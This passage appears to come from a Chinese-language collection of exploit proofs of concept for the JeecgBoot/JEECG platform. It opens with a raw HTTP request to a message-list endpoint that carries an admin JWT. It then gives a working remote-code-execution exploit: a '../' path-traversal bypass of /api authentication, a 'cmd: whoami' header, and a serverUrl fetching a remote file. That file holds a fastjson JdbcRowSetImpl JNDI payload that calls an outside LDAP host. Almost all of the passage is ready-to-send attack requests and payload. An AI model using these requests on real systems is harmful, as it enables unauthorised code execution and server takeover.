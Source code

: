 ```
GET /jeecg-boot/sys/message/sysMessage/list?_t=1732776144&column=createTime&order=desc&field=id,,,esTitle,esContent,esReceiver,esSendNum,esSendStatus_dictText,esSendTime,esType_dictText,action&pageNo=1&pageSize=10 HTTP/1.1
Host:
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:133.0) Gecko/20100101 Firefox/133.0
Accept: application/json, text/plain, */*
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate, br
X-Access-Token: eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJleHAiOjE3MzYyMTcyNDQsInVzZXJuYW1lIjoiYWRtaW4ifQ.-Z6FINUMTWQkOR6u009cde9BFyb-l65VWRhUXDz_2ao
Tenant-Id: 0
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: cross-site
Priority: u=0
Te: trailers
Connection: close
Accept-Encoding: gzip
```

  
## Jeecg-jeecgFormDemoController存在JNDI代码执行漏洞  

```
JEECG 4.0 及之前版本中，由于 /api 接口鉴权时未过滤路径遍历，攻击 者可构造包含 ../ 的 url 绕过鉴权。 因为依赖 1.2.31 版本的 fastjson， 该版本存在反序列化漏洞。攻击者可对
/api/../jeecgFormDemoController.do?interfaceTest 接口进行 jndi 注入攻 击实现远程代码执行。
POST /api/../jeecgFormDemoController.do?interfaceTest= HTTP/1.1
Host: 
Pragma: no-cache
Cache-Control: no-cache
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/120.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate, br
cmd: whoami
Accept-Language: zh-CN,zh;q=0.9
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 77
serverUrl=http://xxxxxxxx:8877/jeecg.txt&requestBody=1&requestMethod=GET
创建如下远程文件，其内容为fastjson代码执行的payload
{
&#34;a&#34;:{
&#34;@type&#34;:&#34;java.lang.Class&#34;,
&#34;val&#34;:&#34;com.sun.rowset.JdbcRowSetImpl&#34;
},
&#34;b&#34;:{
&#34;@type&#34;:&#34;com.sun.rowset.JdbcRowSetImpl&#34;,
&#34;dataSourceName&#34;:&#34;ldap://10.66.64.89:1389/8orsiq&#34;,
&#34;autoCommit&#34;:true
}
}
```
